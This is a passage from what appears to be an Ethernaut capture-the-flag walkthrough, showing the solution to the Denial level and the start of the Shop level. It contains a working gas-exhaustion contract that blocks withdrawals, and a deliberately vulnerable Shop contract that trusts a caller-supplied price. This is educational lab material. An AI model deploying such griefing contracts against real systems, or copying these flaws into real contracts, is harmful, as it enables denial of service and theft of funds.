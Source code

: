 Our `partner` contract is going to look like this:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.0;

contract Drain {
    receive() external payable {
        while(true){}
    }
}
```

Deploy the contract and set the address of the contract as the partner address
of the `Denial` contract.

```javascript
await contract.setWithdrawPartner("0xaddress of the partner contract")
```

and you are done :)

### Learning

The `call` function is a powerful tool, but it can also be dangerous. Always
make sure to check the return value of the function call and limit the gas
forwarded to the function.

## Level 21: Shop <a name="level-21-shop"></a>

Let's have a look at the contract first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
